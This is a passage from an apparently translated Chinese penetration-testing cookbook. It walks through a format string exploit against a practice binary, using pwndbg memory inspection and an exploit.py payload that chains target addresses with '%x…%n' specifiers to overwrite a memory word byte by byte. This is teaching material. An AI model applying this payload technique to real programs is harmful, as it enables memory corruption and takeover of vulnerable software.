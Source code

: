 1.  然后我们可以检查内存位置的当前值：

```py
pwndbg> x/4x 0x08049748  
```

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00118.jpeg)

1.  然后输入`c`以前进到下一个断点。然后再次检查内存位置：

```py
pwndbg> c
pwndbg> x/4x 0x08049748  
```

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00119.jpeg)

从中我们知道该值更改为`0x00000018`。当`printf`执行时，格式字符串值`%n`作为参数，它打印出一个等于到目前为止打印的字节数的 32 位长度值。在这里，程序到目前为止打印了 18 个字节。

1.  现在我们可以编写我们的利用代码来制作有效载荷。为此，请创建一个`exploit.py`文件并在编辑器中打开它。

1.  然后在其中添加以下代码：

```py
#!/usr/bin/python  
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK' 
form = '%x%x%x%n%x%n%x%n%x%n'  
print w1 + w2 + w3 + w4 + form  
```

在这里，我们为我们的应用程序创建一个有效载荷。这将作为输入提交以写入内存位置。因此，生成 32 位字的最佳方法是执行四次写入，每次针对一个字节，并将它们组合起来。

1.  确保利用代码具有执行权限：

```py
chmod +x exploit.py    
```

1.  现在我们可以使用此有效载荷在调试器中运行应用程序。这正是我们之前做的事情：

```py
gdb ./fmt    
pwndbg> break * main + 59    
pwndbg> break * main + 64    
pwndbg> run $(./exploit.py)  
```

1.  检查内存位置：

```py
pwndbg> x/4x 0x08049748
pwndbg> c
pwndbg> x/4x 0x08049748  
```

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00120.jpeg)
